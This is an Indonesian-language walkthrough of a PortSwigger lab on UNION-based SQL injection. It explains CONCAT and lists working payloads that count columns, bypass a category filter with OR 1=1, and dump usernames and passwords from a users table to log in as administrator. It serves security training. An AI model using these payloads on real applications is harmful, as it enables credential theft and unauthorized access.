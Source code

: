 ### Serangan SQL Injection UNION, Mengambil Beberapa Nilai dalam Satu Kolom

Lab ini mengilustrasikan adanya kerentanan SQL injection pada filter kategori produk. Hasil dari query ditampilkan dalam respons aplikasi, sehingga kita dapat menggunakan serangan SQL injection UNION untuk mengambil data dari tabel lain.

Database mengandung tabel lain yang disebut `users`, dengan kolom `username` dan `password`.

Untuk menyelesaikan lab ini, lakukan serangan SQL injection UNION yang mengambil semua `username` dan `password`, kemudian gunakan informasi tersebut untuk login sebagai pengguna administrator.

Petunjuk: Anda bisa menemukan payload yang berguna pada cheat sheet SQL injection kami.

---

### **Apa Itu CONCAT dan Bagaimana Cara Menggunakannya dalam SQL Injection?**

**CONCAT** adalah fungsi SQL yang digunakan untuk menggabungkan (mengconcatenate) dua atau lebih nilai menjadi satu string. Fungsi ini sangat berguna dalam serangan SQL injection untuk menggabungkan beberapa potongan data menjadi satu hasil ketika aplikasi hanya menampilkan satu kolom.

#### **Penggunaan Dasar CONCAT**:
```sql
SELECT CONCAT('foo', 'bar'); 
-- Hasil: 'foobar'
```

#### **Mengapa Menggunakan CONCAT dalam SQL Injection?**
Dalam serangan UNION, ketika aplikasi hanya mengembalikan satu kolom, **CONCAT** dapat digunakan untuk menggabungkan beberapa nilai (misalnya, `username` dan `password`) menjadi satu string. Hal ini memungkinkan penyerang untuk mengekstrak beberapa informasi dalam satu query.

---

### **Langkah-langkah untuk Melakukan Serangan**

#### **Langkah 1: Menganalisis Struktur Query**
Dengan menyuntikkan payload berikut:
```
/filter?category=Gifts'--
```
Aplikasi kemungkinan mengeksekusi query seperti ini:
```sql
SELECT product_name, description 
FROM products 
WHERE category = 'Gifts';
```
Query ini:
- Mengembalikan dua kolom: `product_name` dan `description`.

#### **Langkah 2: Menentukan Jumlah Kolom**
Untuk mengetahui jumlah kolom pada query asli, injeksikan:
```
/filter?category=Gifts'+union+all+select+NULL,NULL--
```
Jika tidak ada kesalahan, query ini mengembalikan dua kolom.

#### **Langkah 3: Menggunakan CONCAT untuk Mengambil Data**
Setelah mengetahui bahwa query mengembalikan dua kolom, gunakan kolom kedua untuk menampilkan string yang digabungkan. Sebagai contoh:
```
/filter?category=Gifts'+union+all+select+NULL,CONCAT('foo','bar')--
```

#### **Langkah 4: Mengambil Data Pengguna**
Untuk mengekstrak `username` dan `password`, gunakan:
```
/filter?category=Gifts'+union+all+select+NULL,CONCAT(username,':',password)+from+users--
```

#### **Penjelasan Query**:
1. Query asli:
   ```sql
   SELECT product_name, description 
   FROM products 
   WHERE category = 'Gifts';
   ```
2. Query yang disuntikkan:
   ```sql
   SELECT product_name, description 
   FROM products 
   WHERE category = 'Gifts'
   UNION ALL
   SELECT NULL, CONCAT(username, ':', password) 
   FROM users;
   ```
3. Detail penting:
   - `NULL`: Placeholder untuk kolom pertama, yang tidak relevan di sini.
   - `CONCAT(username, ':', password)`: Menggabungkan `username` dan `password` dengan pemisah titik dua (`:`).

---

### **Payload yang Valid**

#### **Payload Uji Awal**:
- Menampilkan 4 item dalam kategori "Gifts":
  ```
  /filter?category=Gifts'--
  ```
- Menampilkan semua item dengan bypass:
  ```
  /filter?category=Gifts'+or+1=1--
  ```

#### **Menentukan Jumlah Kolom**:
- Gunakan:
  ```
  /filter?category=Gifts'+union+all+select+NULL,NULL--
  ```

#### **Mengambil Data yang Digabungkan**:
- Menggabungkan string statis:
  ```
  /filter?category=Gifts'+union+all+select+NULL,CONCAT('foo','bar')--
  ```
- Mengekstrak kredensial pengguna:
  ```
  /filter?category=Gifts'+union+all+select+NULL,CONCAT(username,':',password)+from+users--
  ```

---

### **Referensi**

- [SQL Injection UNION Attacks](https://portswigger.net/web-security/sql-injection/union-attacks)
- [SQL Injection Cheat Sheet](https://portswigger.net/web-security/sql-injection/cheat-sheet)

--- 

### **Ilustrasi**

#### **Tampilan Awal (Nama Produk)**:
![img](images/SQL%20injection%20UNION%20attack,%20retrieving%20multiple%20values%20in%20a%20single%20column/1.png)

#### **Memvalidasi Jumlah Kolom**:
![img](images/SQL%20injection%20UNION%20attack,%20retrieving%20multiple%20values%20in%20a%20single%20column/2.png)

#### **Menggunakan CONCAT dengan String Statis**:
![img](images/SQL%20injection%20UNION%20attack,%20retrieving%20multiple%20values%20in%20a%20single%20column/3.png)

#### **Mengekstrak Data Pengguna**:
![img](images/SQL%20injection%20UNION%20attack,%20retrieving%20multiple%20values%20in%20a%20single%20column/4.png)
